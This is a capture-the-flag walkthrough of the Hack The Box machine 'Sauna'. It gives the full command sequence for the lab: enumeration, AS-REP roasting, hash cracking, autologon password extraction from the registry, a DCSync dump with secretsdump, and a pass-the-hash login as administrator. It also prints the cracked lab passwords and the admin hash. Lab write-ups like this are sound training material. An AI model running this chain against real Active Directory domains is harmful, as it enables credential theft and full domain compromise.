# [Sauna](https://app.hackthebox.com/machines/sauna)

```bash
nmap -p- --min-rate 10000 10.10.10.175 -Pn
```




Let's discover open ports of application (53,80,135,139,389,445,49667) via greater nmap scan.

```bash
nmap -A -sC -sV -p53,80,135,139,389,445,49667 10.10.10.175 -Pn
```



I just did enumeration from website of application and wrote possible usernames.txt file.



Let's do user enumeration via `kerbrute` tool.

```bash
kerbrute -users usernames.txt -domain EGOTISTICAL-BANK.LOCAL -dc-ip 10.10.10.175
```




From this result, I see that for 'fsmith' user says that **NOT PREAUTH**

It means, via this user, we can do **'AS-REP Roasting'** attack.

```bash
python3 /usr/share/doc/python3-impacket/examples/GetNPUsers.py 'EGOTISTICAL-BANK.LOCAL/fsmith' -no-pass -dc-ip 10.10.10.175
```




I grab TGT hash and try to crack this via `hashcat` tool.

```bash
hashcat -m 18200 hash.txt --wordlist /usr/share/wordlists/rockyou.txt 
```




I grab found credentials as below.

fsmith: Thestrokes23


I login via this credentials by using `evil-winrm` tool.

```bash
evil-winrm -i 10.10.10.175 -u fsmith -p Thestrokes23
```

user.txt




I just run query for Autologon credentials.

```bash
reg query "HKEY_LOCAL_MACHINE\SOFTWARE\Microsoft\Windows NT\CurrentVersion\Winlogon" /v DefaultUserName
reg query "HKEY_LOCAL_MACHINE\SOFTWARE\Microsoft\Windows NT\CurrentVersion\Winlogon" /v DefaultDomainName
reg query "HKEY_LOCAL_MACHINE\SOFTWARE\Microsoft\Windows NT\CurrentVersion\Winlogon" /v DefaultPassword

```




I found below credentials.

svc_loanmgr: Moneymakestheworldgoround!


I just login via this credentials by using `evil-winrm` tool.

```bash
evil-winrm -i 10.10.10.175 -u svc_loanmgr -p 'Moneymakestheworldgoround!'
```


Now, I just check this user has 'Replication' permission to do 'DC Sync attack'

First, let's check this user has remote permission.

```bash
net user svc_loanmgr /domain
```




As this user has 'Remote' permission, we can do 'DCSync attack' via `secretsdump` script.

```bash
python3 /usr/share/doc/python3-impacket/examples/secretsdump.py 'svc_loanmgr:Moneymakestheworldgoround!@10.10.10.175'
```




From here, I grab NTLM hash of 'administrator' user.

administrator: 823452073d75b9d1cf70ebdf86c7f98e

Let's login via `evil-winrm` tool to do **'Pass-The-Hash'** attack.

```bash
evil-winrm -i 10.10.10.175 -u administrator -H 823452073d75b9d1cf70ebdf86c7f98e
```


root.txt

